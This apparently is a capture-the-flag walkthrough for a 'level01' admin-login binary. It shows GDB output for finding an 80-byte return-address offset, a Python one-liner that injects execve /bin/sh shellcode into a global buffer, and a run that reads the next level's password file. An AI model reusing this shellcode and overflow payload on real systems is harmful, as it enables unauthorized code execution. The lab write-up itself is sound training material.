 
# Walkthrough

**Main** : 
After analyse this program there is  a vulnerability due to a buffer overflow.
The  array is defined with a size of 256 characters,  but there are 7 bytes which are used so we will exploit the remains of free space to do a shell code injection



**Process to exploit the buffer overflow:**
>   1. Find the offset
>   2. Create exploit code  
>   3. Exploit buffe overflow

## Step 1

###  Find the offset
To determine the offset at which the program overwrites the return address on the stack I can do this by providing a unique pattern as input and then analyzing the program's behavior using GDB as debugger  by crashing it. 
Tools like gdb and [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

```
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? () --->  it mean the offset is 80
(gdb) 

```

0x37634136 = 80,  it mean the offset is 80

## Step 2 
### Create exploit code  
There firstly find the address of the buffer  to exploit
```
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484d0 <+0>:	push   %ebp
   0x080484d1 <+1>:	mov    %esp,%ebp
   0x080484d3 <+3>:	push   %edi
   0x080484d4 <+4>:	push   %ebx
   0x080484d5 <+5>:	and    $0xfffffff0,%esp
   0x080484d8 <+8>:	sub    $0x60,%esp
   0x080484db <+11>:	lea    0x1c(%esp),%ebx
   0x080484df <+15>:	mov    $0x0,%eax
   0x080484e4 <+20>:	mov    $0x10,%edx
   0x080484e9 <+25>:	mov    %ebx,%edi
   0x080484eb <+27>:	mov    %edx,%ecx
   0x080484ed <+29>:	rep stos %eax,%es:(%edi)
   0x080484ef <+31>:	movl   $0x0,0x5c(%esp)
   0x080484f7 <+39>:	movl   $0x80486b8,(%esp)
   0x080484fe <+46>:	call   0x8048380 <puts@plt>
   0x08048503 <+51>:	mov    $0x80486df,%eax
   0x08048508 <+56>:	mov    %eax,(%esp)
   0x0804850b <+59>:	call   0x8048360 <printf@plt>
   0x08048510 <+64>:	mov    0x804a020,%eax
   0x08048515 <+69>:	mov    %eax,0x8(%esp)
   0x08048519 <+73>:	movl   $0x100,0x4(%esp)

>    0x08048521 <+81>:	movl   $0x804a040,(%esp)

   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>

```
**Analyse address**  *0x804a040*
After examine the address, we discovery it is address of buffer so we going to exploit it to run the shell code

```
(gdb) x 0x0804a040
0x804a040 <a_user_name>:	0x00000000 ---> It the begin address ofthe buffer

```
we just have to add 7 to account for the username string character and we will have the address to put  the  shellcode.

**Payload**
```
python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac' + '\x08\x04\xa0\x47'[::-1]" > /tmp/payload
```
## Step 3

### Exploit buffer overflow

```
cat /tmp/payload - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```
